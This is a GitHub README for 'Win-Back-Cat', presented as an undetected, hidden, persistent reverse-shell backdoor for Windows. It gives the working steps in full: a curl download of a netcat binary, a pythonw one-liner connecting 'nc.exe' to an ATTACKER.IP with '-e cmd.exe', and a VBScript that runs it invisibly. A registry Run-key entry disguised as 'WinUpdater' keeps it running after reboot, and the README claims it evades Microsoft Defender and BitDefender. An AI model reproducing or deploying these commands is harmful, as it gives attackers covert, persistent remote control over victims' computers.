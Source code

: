 <p>
  <h3 align="center">Win-Back-Cat</h3>
  <p align="center">
    A fully undetected, hidden, persistent, reverse netcat shell backdoor for Windows.
    <br />
    <br />
    <a href="https://github.com/RAF-87/win-back-cat/issues">Report Issue</a>
    ·
    <a href="https://github.com/RAF-87/win-back-cat/issues">Request Feature</a>
  </p>
</p>

<br />
<br />
<br />
<br />

### Prerequisites:

<br />

- You need to be logged in as an `Administrator` in order to be able to create a TCP listener with NetCat.

#### Python:
- Python should be preinstalled on latest versions of Windows.
- You can check by running `python --version` on command prompt.
- If python is not installed, you will need to install it for this to work.
#### cURL:
- If you have version 1803 or later of Windows 10, cURL is installed by default.
- If you don't have cURL you will need to install it for this to work.
- Otherwise find an alternative way to fetch `nc.exe`

<br />
<br />

<br />

### Installation / How to use:

- Very simple, download and execute the batch script: `win-back-cat.bat`.
- Run a netcat listener on attacker machine (ATTACKER.IP) to get a shell back. Example: `netcat -lvp 4445`

<br />

### Breakdown (What's in the script):

<br />

- Move into Temp folder with Environment Variable `%TEMP%` as this helps with compatibility between Windows versions.

- Fetch our Netcat version from repo with:<br />
 `curl https://raw.githubusercontent.com/RAF-87/win-back-cat/main/files/nc.exe > nc.exe`
<br />

#### Why? - Reverse Shell

<br />
We need Linux version of Netcat compiled for Windows, instead of the common OpenBSD version.
<br /><br />
The feature we need is this one:
<br />

- `-e filename`: specify `filename` to exec after connect (use with caution). Connects STDIN and STDOUT to the specified file.

<br />

In our case the `filename` will be `cmd.exe`. This flag is missing on some versions for obvious Security reasons.

<br />

#### Pythonw - Undetected

<br />

- Why `pythonw.exe` instead of `python.exe`?

`pythonw.exe` is a GUI app for launching GUI/no-UI-at-all scripts.

- NO console window is opened.
- Execution is asynchronous:
-- When invoked from a console window, the script is merely launched and the prompt returns right away, whether the script is still running or not.

- Windows trusts python. :shrug:

<br />

`pythonw -c "from subprocess import check_output; check_output('nc.exe `ATTACKER.IP` 4445 -e cmd.exe', shell=True);" >> wncat.bat`

We use `-c` to run the script as one-liner from string. We export it onto a batch script for easier execution chained with the next step.

<br />

#### Visual Basic - Hidden

<br />

`Dim WinScriptHost`<br />
`Set WinScriptHost = CreateObject("WScript.Shell")`<br />
`WinScriptHost.Run Chr(34) & "%TEMP%\wncat.bat" & Chr(34), 0`<br />
`Set WinScriptHost = Nothing`

The above script, will run our batch script as a separate process on the background without the user ever seeing anything.
We need this to keep `pythonw.exe` alive in the background, otherwise using just the batch script we would need a command prompt window always open.

<br />

#### Windows Registry - Persistent

<br />

`reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /f /v WinUpdater /t REG_SZ /d "%TEMP%\wncat.vbs"`

We add our Visual Basic script to Run from the registry entry when Windows Boots up.
So whenever we lose connection, the backdoor will reopen at the next reboot.

<br />

#### Tested on (Feel free to add to this list with a request):

<br />

- OS:           Microsoft Windows 10 Pro 10.0.18363 N/A Build 18363
- Antivirus:    Microsoft Defender, BitDefender

<br /><br />

# Note:
- Using these combined tools, Windows or Any Antivirus cannot detect this backdoor.
- Remember to edit `ATTACKER.IP` for the reverse shell to work.

<br /><br /><br />

<!-- CONTACT -->
## Contact

- LinkedIn: [https://www.linkedin.com/in/raffaele-paglietti/](https://www.linkedin.com/in/raffaele-paglietti/)
- Email: wize@deadcyber.com
- Project Link: [https://github.com/RAF-87/win-back-cat](https://github.com/RAF-87/win-back-cat)

